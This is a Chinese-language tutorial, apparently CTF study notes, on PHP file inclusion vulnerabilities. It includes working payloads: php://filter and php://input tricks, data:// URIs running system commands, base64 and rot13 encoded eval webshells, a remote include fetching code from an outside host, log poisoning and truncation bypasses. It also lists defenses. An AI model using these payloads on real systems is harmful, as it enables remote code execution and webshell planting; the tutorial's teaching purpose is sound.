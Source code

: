# 文件包含漏洞原理

什么是文件包含

为了让代码有更好的可复用性，引入了文件包含函数，通过文件包含函数，包含进来文件，可以直接使用包含进来的文件的代码例如C++的include,java等的import

```
<?php
	$filename=$_GET['filename'] ;
	include($filename);
?>
```

```
php引发文件包含漏洞的四个函数:
include()
include_once()
require()
require_once() 
```

各类脚本语言包含代码写法-见下文

```
<!--#include file="1.asp" -->

<!--#include file="top.aspx" -->

<c:import url="http://thief.one/1.jsp">

<jsp:include page="head.jsp"/>

<%@ include file="head.jsp"%>

<?php Include('test.php')?>
```

本地文件包含

- 可以包含本地文件，在条件允许时甚至能执行代码
- 读敏感文件，读PHP文件
- 包含日志文件GetShell
- 包含data:或php://input等伪协议
- 若有phpinfo则可以包含临时文件
- 配合上传图片马，然后包含从而GetShell

![img](http://image.daishen.ltd/i/2023/03/07/6406de1089a80.png)

远程文件包含

如果要使用远程包含功能，首先需要确定PHP是否已经开启远程包含功能选项（php默认关闭远程包含功能：allow_url_include=off），开启远程包含功能需要在php.ini配置文件中修改。远程包含与本地包含没有区别，无非是支持远程加载，更容易getshell，无论是哪种扩展名，只要遵循PHP语法规范，PHP解析器就会对其解析。

# 具体使用

### php&http协议

```
payload: ?file=php://filter/read=convert.base64-encode/resource=flag.php

payload: ?file=php://input post:<?php system('tac flag.php');?>

payload: ?file=http://www.xiaodi8.com/1.txt 1.txt:<?php system('tac flag.php');?>
```

### data&http协议

```
payload: ?file=data://text/plain,<?=system('tac flag.*');?>

payload: ?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmxhZy5waHAnKTs/Pg==

payload: ?file=http://www.xiaodi8.com/1.txt 1.txt:<?php system('tac flag.php');?>
```

### 日志包含

1、利用其他协议,如file,zlib等

2、利用日志记录UA特性包含执行

分析需文件名及带有php关键字放弃

故利用日志记录UA信息，UA带入代码

包含：/var/log/nginx/access.log

### SESSION包含

https://www.cnblogs.com/lnterpreter/p/14086164.html

https://www.cnblogs.com/echoDetected/p/13976405.html



### php://filter/write&加密编码

```
1、利用base64:

url编码2次：php://filter/write=convert.base64-decode/resource=123.php 

content=aaPD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg==

2、利用凯撒13：

url编码2次：php://filter/write=string.rot13/resource=2.php

content=<?cuc riny($_CBFG[1]);?>
```

### data&base64协议

```
过滤PHP，各种符号，php代码编码写出无符号base64值

Payload：file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgKi5waHAnKTtlY2hvIDEyMzs/PmFk
```

### php://filter/write&新的算法

```
convert.iconv.：一种过滤器，和使用iconv()函数处理流数据有等同作用

<?php

$result = iconv("UCS-2LE","UCS-2BE", '<?php eval($_POST[a]);?>');

echo "经过一次反转:".$result."\n";

echo "经过第二次反转:".iconv("UCS-2LE","UCS-2BE", $result);

?>

Payload：file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php

contents=?<hp pvela$(P_SO[T]a;)>?
```

# 防范措施

包含漏洞在PHP开发中特别常见，综上分析后发现，造成该漏洞的根本原因：**被包含的页面可以被攻击者控制，攻击者可以随心所欲的去包含某个页面。**

**具体防范措施：（可以进行参考）**

> 1、严格判断包含中的参数是否外部可控，因为文件包含漏洞利用成功的关键在于被包含的文件是否可被外部控制。
>
> 2、路径限制：限制被包含文件只能在某一文件夹中，一定要禁止目录跳转字符，如：../
>
> 3、包含文件验证：验证被包含的文件是否在白名单中
>
> 4、尽量不要使用动态包含，可以在需要包含的页面固定写好

# 绕过

绕过限制有很多方法可以实现：

- %00截断
- 长路径截断
- 点点点点点号绕过

### .%00（%00截断）

就是在url后面输入%00 即可截断html，条件： allow_url_fopen = Off php版本<5.3.4

### 长路径截断

条件：windows OS，点号需要长于256；linux OS 长于4096

windows下目录最大长度为256字节，超出的部分会被丢弃

linux下目录最大长度为4096字节，

### 点点点点点点*n绕过（点号截断）

点号绕过的原理和长路径截断的一样：原理是：

windows下目录最大长度为256字节，超出的部分会被丢弃，linux下目录最大长度为4096字节，超出的部分会被丢弃，所以用…..绕过的时候windows 系统中，点号需要长于256；linux 系统中点号要长于4096。

